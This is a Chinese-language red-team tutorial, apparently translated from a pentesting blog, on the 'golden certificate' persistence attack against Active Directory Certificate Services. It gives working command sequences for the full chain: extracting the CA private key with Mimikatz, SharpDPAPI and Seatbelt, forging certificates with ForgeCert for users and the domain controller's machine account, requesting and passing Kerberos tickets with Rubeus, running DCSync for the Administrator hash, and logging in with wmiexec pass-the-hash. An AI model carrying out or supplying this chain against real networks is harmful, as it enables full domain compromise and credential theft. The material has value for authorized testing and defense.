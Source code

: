 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。
<center>
![](/img/利用黄金证书劫持域控/1.png)
</center>
<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。
<center>
![](/img/利用黄金证书劫持域控/2.png)
</center>
<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。
<center>
![](/img/利用黄金证书劫持域控/3.png)
</center>
<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates
<center>
![](/img/利用黄金证书劫持域控/4.png)
</center>
<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
<center>
![](/img/利用黄金证书劫持域控/5.png)
</center>
<center>
Mimikatz – 导出证书
</center> 

<center>
![](/img/利用黄金证书劫持域控/6.png)
</center>
<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。
<center>
![](/img/利用黄金证书劫持域控/7.png)
</center>

SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine
<center>
![](/img/利用黄金证书劫持域控/8.png)
</center>
<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。
<center>
![](/img/利用黄金证书劫持域控/9.png)
</center>
<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
<center>
![](/img/利用黄金证书劫持域控/10.png)
</center>
<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab
<center>
![](/img/利用黄金证书劫持域控/11.png)
</center>
<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/12.png)
</center>
<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/13.png)
</center>
<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/14.png)
</center>
<center>
Rubeus – Kerberos 票证 
</center>  
 
<center>
![](/img/利用黄金证书劫持域控/15.png)
</center>
<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/16.png)
</center>
<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 

<center>
![](/img/利用黄金证书劫持域控/17.png)
</center>
<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/18.png)
</center>
<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/19.png)
</center>
<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator
<center>
![](/img/利用黄金证书劫持域控/20.png)
</center>
<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1
<center>
![](/img/利用黄金证书劫持域控/21.png)
</center>
<center>
WMI 连接 - 域控制器
</center> 


参考链接：
https://github.com/GhostPack/Seatbelt
https://github.com/GhostPack/SharpDPAPI
https://github.com/GhostPack/ForgeCert
https://pentestlab.blog/2021/11/15/golden-certificate/

